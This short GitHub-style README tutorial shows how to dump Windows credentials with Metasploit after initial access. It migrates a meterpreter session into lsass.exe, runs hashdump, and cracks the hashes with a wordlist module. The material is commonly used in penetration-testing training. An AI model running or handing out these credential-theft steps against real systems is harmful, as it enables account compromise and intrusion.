


# Credential-Dumping-with-Metasploit
Let's see how to dump and crack the credentials with Metasploit post exploitation modules 
  
## Post exploitation
### After an initial access (meterpreter session) let's use this module for dumping the credentials:
 - migrate -N lsass.exe **(Lsass.exe is a Windows process that stands for Local Security Authority Subsystem Service. It is responsible for security-related functions, such as user authentication, password changes, and security policies)** 
 - hashdump 
 
 ### Use the module for cracking the hashes
 - use auxiliary/analyze/crack_windows
 - set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
 - exploit 
 

Tip: Remember to start the db with **/etc/init.d/postgresql start** 

#Author
<b>Xiao Li Savio Feng</b>
